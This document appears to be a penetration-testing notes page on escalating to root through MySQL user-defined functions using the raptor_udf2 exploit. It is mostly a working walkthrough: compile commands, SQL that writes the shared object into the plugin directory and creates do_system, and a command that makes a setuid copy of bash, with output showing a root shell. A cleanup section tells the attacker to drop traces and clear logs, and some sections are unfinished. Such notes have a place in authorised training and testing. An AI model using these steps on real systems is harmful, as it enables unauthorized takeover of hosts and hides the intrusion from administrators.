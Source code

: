 # Manual

## 01 - Detect

Exploiting misconfigured services with root access such as MySQL databases can pose a real risk that an attacker can take full control. If the following requirements has been met. MySQL whatever if MySQL has password database or no authentication which makes things even easier for the hacker.

Install the following dependencies

`$ sudo apt install default-libmysqlclient-dev`

We have lookup via `searchsploit` tool with a set of local copies of the exploitdb that is stored on the hacker's machine

`$ searchsploit mysql user-defined function`

`$ searchsploit -x 1518`

This [MySQL exploit](https://www.exploit-db.com/exploits/1518) has comments that explains with the builtin function for `do_system()` in MySQL that has something to do with misconfigurations with root access that allows the attacker to take full control. Follow the instructions of what the author wrote to compile the exploit.

## 02 - Exploit

```
$ gcc -g -c raptor_udf2.c -fPIC
$ gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```

Once the exploit is ready. Authenticate with the MySQL credentials with root privileges

```
$ mysql -u root

mysql> SHOW VARIABLES LIKE '%plugin%';

mysql> SHOW VARIABLES LIKE '%secure_file_priv%';

mysql> USE mysql;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> CREATE TABLE newtbl(LINE BLOB);
Query OK, 0 rows affected (0.01 sec)

mysql> INSERT INTO newtbl VALUES(LOAD_FILE('/home/user/raptor_udf2.so'));
Query OK, 1 row affected (0.00 sec)

mysql> SELECT * FROM newtbl INTO DUMPFILE '/usr/lib/mysql/plugin/raptor_udf2.so';
Query OK, 1 row affected (0.00 sec)

mysql> CREATE FUNCTION do_system RETURNS INTEGER SONAME 'raptor_udf2.so';
Query OK, 1 row affected (0.00 sec)

mysql> SELECT do_system('cp /bin/bash /tmp/mysql-service; chmod +xs /tmp/mysql-service');
+----------------------------------------------------------------------------+
| do_system('cp /bin/bash /tmp/mysql-service; chmod +xs /tmp/mysql-service') |
+----------------------------------------------------------------------------+
|                                                                          0 |
+----------------------------------------------------------------------------+
1 row in set (0.01 sec)

user@debian:~$ ls -lh /tmp/mysql-service
-rwsr-s--x 1 root root 905K Jan 19 20:18 /tmp/mysql-service
user@debian:~$ /tmp/mysql-service -p
mysql-service-4.1# whoami
root
```

**TODO:** Write about this

Another way to exploit the MySQL service but this technique we'll be using it to transfer the file by copying the shared object file as in binary encoded text to execute MySQL query.

`$ searchsploit mysql user-defined`

`$ searchsploit -x 46249`

## 03 - Cleanup

TODO: Finish this info

Once it was successfully exploited. Get rid of the table you've created and clear the MySQL logs as well.

`mysql> TRUNCATE TABLE newtbl;`

---
## References

- [MySQL UDF Basics and Exploitation](https://blog.certcube.com/mysql-udf-basics-and-exploitation/)

- [Privilege Escalation with MySQL User Defined Functions](https://medium.com/r3d-buck3t/privilege-escalation-with-mysql-user-defined-functions-996ef7d5ceaf)

- [Lib MySQLUDF_Sys](https://github.com/mysqludf/lib_mysqludf_sys)

- [Database Takeover User-Defined Functions (UDF) for MySQL and PostgreSQL Github repository](https://github.com/sqlmapproject/udfhack)

- [MySQL Show Privileges Statement](https://www.tutorialspoint.com/mysql/mysql_show_privileges_statement.htm)